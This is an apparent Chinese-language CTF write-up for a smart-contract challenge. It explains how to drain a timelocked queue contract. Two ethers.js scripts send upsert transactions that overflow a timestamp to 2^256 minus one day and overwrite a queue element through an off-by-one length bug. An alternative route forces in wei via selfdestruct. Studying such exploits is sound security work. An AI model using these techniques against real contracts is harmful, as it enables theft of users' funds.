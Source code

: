 解题思路 大概有两种, 这里重点说一种, 第二种在注释灰色区域中

1. 发起第一笔upsert tx: $index=1, timestamp=2^{256}-24*3600, msg.value=1wei $, 这时候, head的值等于$2^{256} - 24*3600$. queue里面存了两个元素, 第一个元素的amount=1E, timestamp=now+50years, **第二个元素的amount=2WEI,** timestamp等于$2^{256} - 24 * 3600$, address(this)=1E+1WEI 

   >  做一说第二个元素的amount=2WEI, 是因为 queue.push(contribution); 多扩充了一个长度, 所以 amount变量被加了1

   ```javascript
   async function main(){
     const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
     const wallet = new ethers.Wallet(process.env.PK,provider)
     let ABI = ["function upsert(uint256 index, uint256 timestamp)"]
     let iface = new ethers.utils.Interface(ABI)
     const ONE_DAYS_IN_SECONDS = 24 * 60 * 60
     const timestamp = ethers.BigNumber.from(`2`)
                           .pow(`256`)
                           .sub(ONE_DAYS_IN_SECONDS)
     const tx = {
       to : "0xcC48087C1b44f57Fdaa8A721b3d3D89bd913C9D5",
       data: iface.encodeFunctionData("upsert", [1,timestamp]),
       value: 1,
     }
     const hash = await wallet.sendTransaction(tx)
     await hash.wait()
     console.log(hash.hash)
   
     // const position =  ethers.BigNumber.from(ethers.utils.keccak256("0x0000000000000000000000000000000000000000000000000000000000000000")).add(ethers.BigNumber.from(3))
     // console.log(position)
   
     // const end2 = await provider.getStorageAt("0xcC48087C1b44f57Fdaa8A721b3d3D89bd913C9D5", position)
     // console.log(end2)
   }
   ```

2. 这时候 我们需要纠正过head的值, 因此发起第二笔upsert tx: $index=2, timestamp=0, msg.value=1wei$, 这个时候, head的值等于0, **queue里面存了两个元素**, 第一个元素的amount=1E, timestamp=now+50years, 第二个元素的amount=2WEI, timestamp等于$0$ , address(this)=1E+1WEI+1WEI

   > 因为msg.value=1WEI, 所以queue里面 是两个元素的长度, 把第二个元素重写了
   >
   > 如果msg.value=2WEI的话, 索然不会重写元素, 但是提取的时候, 会发现提取不了, 因为余额不够了
   >
   > 如果不重写, 需要的余额是 1E+2WEI+3WEI, 而账上余额只会是1E+1WEI+1WEI=1E+2WEI, 少了3WEI
   >
   > ❤️ 第二种思路在这 ✔️, 即不重写第二个元素, 缺少3WEI的情况下, 用上面我们提到的 selfstruct函数 , 把3WEI送过去, 也能完成.

   ```javascript
   async function main(){
     const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
     const wallet = new ethers.Wallet(process.env.PK,provider)
     let ABI = ["function upsert(uint256 index, uint256 timestamp)"]
     let iface = new ethers.utils.Interface(ABI)
     const tx = {
       to : "0xcC48087C1b44f57Fdaa8A721b3d3D89bd913C9D5",
       data: iface.encodeFunctionData("upsert", [2,0]),
       value: 1,
     }
     const hash = await wallet.sendTransaction(tx)
     await hash.wait()
     console.log(hash.hash)
   
     // const position =  ethers.BigNumber.from(ethers.utils.keccak256("0x0000000000000000000000000000000000000000000000000000000000000000")).add(ethers.BigNumber.from(3))
     // console.log(position)
   ```